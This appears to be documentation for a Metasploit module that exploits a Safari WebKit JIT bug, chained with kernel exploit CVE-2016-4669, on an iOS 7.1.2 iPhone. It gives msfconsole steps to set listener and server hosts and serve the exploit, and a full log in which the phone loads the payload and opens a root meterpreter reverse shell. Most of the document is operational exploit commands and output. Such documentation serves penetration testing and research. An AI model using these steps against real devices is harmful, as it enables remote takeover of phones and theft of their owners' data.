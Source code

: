 ## Vulnerable Application

This module exploits a JIT optimization bug in Safari Webkit. This allows us to
write shellcode to an RWX memory section in JavaScriptCore and execute it. The
shellcode contains a kernel exploit (CVE-2016-4669) that obtains kernel rw,
obtains root and disables code signing. Finally we download and execute the
meterpreter payload.

This module has been tested against iOS 7.1.2 on an iPhone 4.

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/apple_ios/browser/safari_jit`
1. Do: `set lhost [ip]`
1. Do: `set srvhost [ip]`
1. Do: `run`
1. Browse to the website with a vulnerable device
1. You should get a root shell.

## Options

### DEBUG_EXPLOIT

Show debug information during exploitation.  This will add entries to the iPhone syslog related to exploitation and
loading of the payload.  Defaults to `false`

## Scenarios


### iPhone 4 with iOS 7.1.2

```
msf > use exploit/apple_ios/browser/safari_jit
[*] Using configured payload apple_ios/armle/meterpreter_reverse_tcp
msf exploit(apple_ios/browser/safari_jit) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf exploit(apple_ios/browser/safari_jit) > set srvhost 1.1.1.1
srvhost => 1.1.1.1
msf exploit(apple_ios/browser/safari_jit) > set verbose true
verbose => true
msf exploit(apple_ios/browser/safari_jit) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(apple_ios/browser/safari_jit) > 
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8080/
[*] Server started.
[*] 2.2.2.2    safari_jit - Request / from Mozilla/5.0 (iPhone; CPU iPhone OS 7_1_2 like Mac OS X) AppleWebKit/537.51.2 (KHTML, like Gecko) Version/7.0 Mobile/11D257 Safari/9537.53
[*] 2.2.2.2    safari_jit - Request /loader.b64?cache=1596557302841 from Mozilla/5.0 (iPhone; CPU iPhone OS 7_1_2 like Mac OS X) AppleWebKit/537.51.2 (KHTML, like Gecko) Version/7.0 Mobile/11D257 Safari/9537.53
[*] 2.2.2.2    safari_jit - Request /macho.b64?cache=1596557303179 from Mozilla/5.0 (iPhone; CPU iPhone OS 7_1_2 like Mac OS X) AppleWebKit/537.51.2 (KHTML, like Gecko) Version/7.0 Mobile/11D257 Safari/9537.53
[*] 2.2.2.2    safari_jit - Request /payload from MobileSafari/9537.53 CFNetwork/672.1.15 Darwin/14.0.0
[+] 2.2.2.2    safari_jit - Target is vulnerable, sending payload!
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:49299) at 2020-08-04 12:08:27 -0400
sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: root @ iPhone (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : iPhone3,3 (iOS 11D257)
Architecture : armv7
BuildTuple   : arm-iphone-darwin
Meterpreter  : armle/apple_ios
```
